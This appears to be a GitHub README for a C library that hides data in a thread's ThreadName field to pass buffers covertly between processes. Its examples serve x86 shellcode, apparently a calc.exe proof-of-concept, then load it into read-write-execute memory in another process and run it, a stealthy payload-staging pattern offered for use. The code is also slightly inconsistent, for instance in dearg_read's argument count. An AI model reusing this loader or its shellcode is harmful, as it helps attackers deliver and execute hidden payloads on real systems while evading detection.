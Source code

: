 # 🕵️ dearg-thread-ipc-stealth
A novel technique to communicate between threads using the standard ETHREAD structure. This is the wrapper to use the technique, using `ThreadName` as a buffer to talk between processes, with just the need for a `HANDLE` to the thread.

The technique relies on the fact that we can modify the `ThreadName` member when the `ETHREAD` structure. The `ETHREAD` structure simply contains information about a thread, and is stored in kernel space. We can fetch information about a thread using the `NtQueryInformationThread` system call, or the friendler user-mode API `GetThreadInformation`, and subsequently set information about a thread using `NtSetInformationThread`, and `SetInformationThread`. I've attempted to make this technique follow the model of client <-> server as much as possible, where the client is fetching whatever buffer from another thread, and the server hosting it.


## Usage
There are two main exported methods, one to read from another thread, and another to serve the content to another thread. All of the return values are custom, and set by the upon operation success or failure.
```C
DEARG_STATUS
dearg_read(
	_In_ HANDLE hThread,
	_Out_ PDEARG_HEADER pHdr,
	_Out_ PBYTE pbDataOut
);

DEARG_STATUS
dearg_serve(
	_In_ HANDLE hThread,
	_In_ DEARG_FLAGS dFlags,
	_In_ PDEARG_HEADER pHdr,
	_In_ PBYTE pbBuffer,
	_In_ UINT16 u16Len
);
```

### Server Example
```C
int main(int argc, char** argv)
{
	BYTE bShellcode[] = \
		"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
		"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
		"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
		"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
		"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
		"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
		"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
		"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
		"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
		"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
		"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
		"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
		"\x52\xff\xd0";

	// initialise the header
	DEARG_HEADER dHdr;
	if (!dearg_init_hdr(&dHdr))
	{
		return 0;
	}

	// attempt to serve the shellcode
	DEARG_STATUS dStatus = dearg_serve(GetCurrentThread(), DEARG_READ | DEARG_WRITE, &dHdr, bShellcode, sizeof(bShellcode));
	if (dStatus != DSERVE_OK)
	{
		switch (dStatus)
		{
		case DSERVE_ERROR_KEY:
			puts("failed to find a suitable key");
			break;

		case DSERVE_ERROR_SET:
			puts("failed to set the thread name");
			break;

		case DSERVE_ERROR_ALLOC:
			puts("a memory allocation failure occured");
			break;

		case DSERVE_INVALID_PARAMS:
			puts("the parameters were invalid");
			break;
		}

		return 0;
	}

	printf("Serving %d bytes of content on thread ID %d using key 0x%X\n", sizeof(bShellcode), GetCurrentThreadId(), dHdr.Key);
	return 1;
}
```

### Client Example
```C
HANDLE hThread = OpenThread(THREAD_QUERY_LIMITED_INFORMATION, FALSE, 1337);
if (hThread == INVALID_HANDLE_VALUE)
{
	return FALSE;
}

DEARG_HEADER dHdr;
RtlSecureZeroMemory(&dHdr, sizeof(DEARG_HEADER));

// first, get the buffer size by heading the header
if (dearg_read(hThread, &dHdr, NULL, 0) != DSERVE_NO_DATA_OUT) 
{
	return FALSE;
}

// allocate the executable memory with the size from the header
LPVOID lpMem = VirtualAlloc(NULL, dHdr.u16Size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
if (lpMem == NULL)
{
	return FALSE;
}

// read in the data
// first, get the buffer size by heading the header
if (dearg_read(hThread, &dHdr, lpMem) != DSERVE_OK) 
{
	return FALSE;
}

// execute the shellcode
((VOID(*)())lpMem)();
```